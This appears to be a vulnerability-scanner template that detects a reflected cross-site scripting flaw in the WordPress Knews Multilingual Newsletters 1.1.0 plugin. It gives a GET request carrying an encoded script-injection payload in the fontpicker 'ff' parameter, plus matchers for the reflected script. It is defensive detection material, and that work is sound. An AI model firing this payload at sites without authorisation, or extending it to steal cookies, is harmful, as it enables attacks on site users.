 **Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Knews Multilingual Newsletters 1.1.0 - Cross-Site Scripting

## Description

- WordPress Knews Multilingual Newsletters 1.1.0 plugin contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - wordpress,xss,wp-plugin

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/knews/wysiwyg/fontpicker/?ff=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---
